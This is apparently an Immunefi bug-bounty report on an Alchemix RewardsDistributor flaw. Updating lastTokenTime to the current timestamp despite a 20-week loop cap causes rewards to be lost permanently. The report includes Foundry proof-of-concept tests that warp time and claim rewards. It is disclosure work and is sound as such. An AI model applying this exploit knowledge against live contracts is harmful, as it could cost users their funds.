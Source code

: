 # 31559 - \[SC - Low] Minter UpdatePeriod after weeks causes Rewards...

Submitted on May 21st 2024 at 10:20:50 UTC by @copperscrewer for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31559

Report type: Smart Contract

Report severity: Low

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RewardsDistributor.sol

Impacts:

* Permanent freezing of unclaimed royalties
* Permanent freezing of unclaimed yield

## Description

## Brief/Intro

The Minter is a contract that calls UpdatedPeriod which then updates rewards to claim in tokensPerWeek in Rewards Distributor

In \_checkpointToken The hard cap of 20 weeks and the invalid updation of lastTokenTime to block.timestamp, allows direct loss of rewards proportional to amount of time elapsed from the 20 weeks mark.

## Vulnerability Details

Minter UpdatePeriod after 20 weeks causes RewardsDistributor contract to lose claimable amount. The Rewards Distributor Contract has a claim function for a token id where it distributes rewards to the holder, however the rewards are only captured till 20 weeks from last updated epoch and set to the current block.timestamp despite only updating 20 weeks from lastTokenTime.

This is in contrast to the 255 weeks limit in Voting escrow as the number of weeks are just 20 for the exploit to damage the protocol, and there are no associated complexities in carrying out the attack.

```solidiity
    function _checkpointToken() internal {
    .
    lastTokenTime = block.timestamp; 
    //@audit wrong as it's not calculated till block.timestamp, It should cover only till where it updated 
    .
    for (uint256 i = 0; i < 20; i++) { 
    //@audit limit 20 is fine but the former incorrectly updates lastTokenTime 
to block.timestamp
    .
    tokensPerWeek[thisWeek] += (toDistribute * (nextWeek - t)) / sinceLast;
    .
    }


```

Since the rewards are not entered correctly, the protocol permanently loses the rewards to distribute to the user.

## Impact Details

The impact is that the user will permanently lose rewards, and the exploit can be as easy as 20 weeks of negligence and no added complexity to carry out the attack.

## Proof of Concept

Copy paste the following code in Minter.t.sol and execute the following command `forge test --match-test testtokensPerWeekPOC* --fork-url https://eth-mainnet.alchemyapi.io/v2/[API_KEY] -vvv`

```solidity
    function testtokensPerWeekPOC() external 
    {
        console.log("Block timestamp : ", block.timestamp);
        console.log("minter active period : ", minter.activePeriod() );

        uint256 activePeriodThen = minter.activePeriod();
        hevm.warp(activePeriodThen + 20 weeks); 

        //ROUND1        
        hevm.startPrank(address(voter));

        minter.updatePeriod(); // deposits alcx to Distributor
        hevm.stopPrank();

        //We prank veALCX for POC reasons
        hevm.startPrank(address(veALCX));

        uint256 claimedAmount = distributor.claim(1, false);
        console.log("Claimed amount @ 20 weeks : ", claimedAmount);       

    }

    function testtokensPerWeekPOC18() external 
    {
        console.log("Block timestamp : ", block.timestamp);
        console.log("minter active period : ", minter.activePeriod() );

        uint256 activePeriodThen = minter.activePeriod();
        hevm.warp(activePeriodThen + 18 weeks);

        //ROUND1        
        hevm.startPrank(address(voter));

        minter.updatePeriod(); // deposits alcx to Distributor
        hevm.stopPrank();

        //We prank veALCX for POC reasons
        hevm.startPrank(address(veALCX));

        uint256 claimedAmount = distributor.claim(1, false);
        console.log("Claimed amount @ 18 weeks : ", claimedAmount);       

    }

    function testtokensPerWeekPOC10() external 
    {
        console.log("Block timestamp : ", block.timestamp);
        console.log("minter active period : ", minter.activePeriod() );

        uint256 activePeriodThen = minter.activePeriod();
        hevm.warp(activePeriodThen + 10 weeks); 

        //ROUND1        
        hevm.startPrank(address(voter));

        minter.updatePeriod(); // deposits alcx to Distributor
        hevm.stopPrank();

        //We prank veALCX for POC reasons
        hevm.startPrank(address(veALCX));

        uint256 claimedAmount = distributor.claim(1, false);
        console.log("Claimed amount @ 10 weeks : ", claimedAmount);       

    }

    function testtokensPerWeekPOC22() external 
    {
        console.log("\nBlock timestamp : ", block.timestamp);
        console.log("minter active period : ", minter.activePeriod() );

        uint256 activePeriodThen = minter.activePeriod();
        hevm.warp(activePeriodThen + 22 weeks); 

        //ROUND1        
        hevm.startPrank(address(voter));

        minter.updatePeriod(); // deposits alcx to Distributor
        hevm.stopPrank();

        //We prank veALCX for POC reasons
        hevm.startPrank(address(veALCX));

        uint256 claimedAmount = distributor.claim(1, false);
        console.log("Claimed amount @ 22 weeks : ", claimedAmount);       
        

    }

    function testtokensPerWeekPOC30() external 
    {
        console.log("\nBlock timestamp : ", block.timestamp);
        console.log("minter active period : ", minter.activePeriod() );

        uint256 activePeriodThen = minter.activePeriod();
        hevm.warp(activePeriodThen + 30 weeks); 

        //ROUND1        
        hevm.startPrank(address(voter));

        minter.updatePeriod(); // deposits alcx to Distributor
        hevm.stopPrank();

        //We prank veALCX for POC reasons
        hevm.startPrank(address(veALCX));

        uint256 claimedAmount = distributor.claim(1, false);
        console.log("Claimed amount @ 30 weeks : ", claimedAmount);  

        claimedAmount = distributor.claim(1, false);
        console.log("Claimed again : ", claimedAmount);  
    }
```
